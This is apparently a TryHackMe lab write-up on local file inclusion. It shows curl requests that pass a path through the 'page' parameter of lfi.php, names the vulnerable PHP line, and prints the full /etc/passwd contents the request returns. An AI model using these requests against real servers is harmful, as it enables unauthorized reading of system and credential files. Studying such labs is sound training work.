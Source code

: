 Adding value to parameter `?page=home.html` gives intended result. Use `curl http://<ip>/lfi/lfi.php?page=home.html`,
{% capture code %}{% raw %}File included: home.html<br><br><br>
Local file to be used: home.html<br><br>
<h1>You included home.html</h1><br>{% endraw %}{% endcapture %} {% include code.html code=code %}

There is a vulnerable code `$local_file = $_REQUEST["page"];` in lfi.php which allows file contents to be displayed.
To display contents of `/etc/passwd` file, use `curl "http://<ip>/lfi/lfi.php?page=/etc/passwd"`,

An output similar to below will be obtained. Analyze to get non-system user.
{% capture code %}{% raw %}File included: /etc/passwd<br><br><br>
Local file to be used: /etc/passwd<br><br>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nol
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/b
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/fa
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/fals
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/b
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}
